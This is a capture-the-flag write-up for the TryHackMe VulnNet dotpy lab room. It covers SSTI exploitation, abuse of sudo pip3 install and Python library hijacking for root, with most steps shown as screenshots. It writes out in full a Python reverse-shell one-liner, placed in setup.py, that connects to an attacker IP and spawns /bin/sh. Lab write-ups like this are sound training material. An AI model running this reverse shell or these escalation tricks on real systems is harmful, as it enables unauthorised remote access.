 Link room: https://tryhackme.com/room/vulnnetdotpy

# ENUMERATING
## using nmap
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/7b5adbc7-ab79-41b1-aee7-0db482da1c2f)

=> domain vulnnet.com

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/b1edb4fe-dc65-4b81-bd78-6dac38d926bd)
## view web
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/640e7391-8fb8-44d3-bd19-afebda47d021)

I try registering an account 

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/fbb18a4c-3345-4668-a83e-d52574552565)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/c9737394-e431-42bc-adfd-d15fd96f0e3d)

=> Logged in successfully!!
# EXPLOITING
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/8798a325-512b-4dbf-90ed-423cedd72070)

=> I see the line "No results for {4+3}" 

I search on google with keyword "ssti payload exploit"

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/8758d12a-4d23-4ca1-9a01-e5b46082c50a)

Using CyberChef website to tranfer reverse command to hex

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/40a9c6db-1da6-4323-b74f-5d2806d73033)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/f9350e5a-56f7-407f-8664-3436f18e2660)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/66af16ce-fd11-43b6-959b-63abe8c193cb)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/41fda77d-dfc3-45a6-8b4d-bdf5eae12b38)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/eb553201-70bc-4e80-9e15-4f7691ef72e9)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/aa114201-ee0d-45b1-9307-1eef343758c8)

## using ```sudo -nl```
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/f589904b-eb98-480d-9e62-6dd133807839)

I search on google with keyword "pip3 install * exploit" and find something similar. If it's as they say, I can also get a reverse shell by editing the setup.py file

So I go to "pentestmonkey.net" website 

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/9a8b0bed-2203-4c6b-ac5a-a85f65d43f4b)

Creating directory named temp in /tmp. I run command 
```echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.218.234",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > setup.py"``` to create setup.py file

Then I run command ```sudo -u system-adm /usr/bin/pip3 install .``` and ```nc``` to get revershell

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/8a5b8585-7642-4786-9087-fbeed3f7798c)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/c7fb8da1-7225-4fec-8356-4b5017c9956d)

=> user.txt
# PRIVILEGE ESCALATION
## using ```sudo -nl```
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/099575b4-36f2-465f-a8bb-7a5a2a75a1a1)

Reading /opt/backup.py
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/e2941763-d0b1-4d83-ae13-3249b0dfe2c8)

I go to /tmp and create zipfile.py

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/99655343-1463-4acc-8731-2303a37a0670)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/7e51b0cb-d8d2-4b15-9be6-a436dd8c7b7d)

=> root.txt
## Done!!!
Thanks for reading. Bye!

